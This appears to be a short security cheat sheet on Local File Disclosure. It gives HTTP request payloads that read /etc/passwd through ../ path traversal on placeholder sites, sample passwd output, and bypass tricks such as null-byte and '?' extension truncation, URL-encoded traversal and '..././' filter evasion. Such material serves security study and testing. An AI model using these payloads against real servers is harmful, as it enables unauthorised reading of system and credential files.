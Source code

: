 # Local File Disclosure
The File Disclosure vulnerability allows an attacker to include a file, usually expliting a "dynamic file read" mechanisms implemented in the target application. The vulnerability occurs due to the user of user-supplied input without proper validation. (OWASP)
- Allows to read configuration files on host machine
- Read Arbitrary Files on the box (like /etc/passwd)
- Information Disclosure(limited to host's root directory) in some cases.


## Example
> GET http://mybankingsite.com/view_files?image=/images/myavatar.jpeg HTTP/1.1

> GET http://mybankingsite.com/view_file?image=../../../../../etc/passwd HTTP/1.1

## Path Traversal 
GET mybankingsite.com/view_file?image=../../../../../../etc/passwd HTTP/1.1
nobody:\*:-2:-2:Unprivileged User:/var/emty:/usr/bin/false
root:\*:0:0:System Administrator:/var/root:/bin/sh
daemon:\*:1:1:System Services:/var/root:/usr/bin/false

## How to find LFD
- It's not always this easy, sometimes you may have to traverse out of the current directory.
- Sometimes the application my expect an extension or will automatically add it to the end of the request for example:

	`GET http://mybankingsite.com/transaction?u=myusername HTTP/1.1`
	Will spit out a CSV file named myusername.csv
	
- This can be bypassed by adding a nullbyte(%00), in some cases by adding a "?" or other characters, depending on how the application works:

	`GET http://mybankingsite.com/transactions?u=/etc/passwd?%00 HTTP/1.1`
	This may give us the contents for /etc/passwd by ignoring the csv extension

## Null Byte Injection
Null Byte Injection (%00) or a ? mark, to ignore the remainder of the string but we may have to deal with other limitations or filtering in place:

- URL encoding:
	- . = %2e
	- / = %2f
	- ../ = %2e%2e%2f

- Bypass filter for "../":
	- ..././ = ../
	- ....// = ../
	- Get creatvie!

- Example:
	- http://cryptosite.com/download_earnings?u=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00csv HTTP/1.1

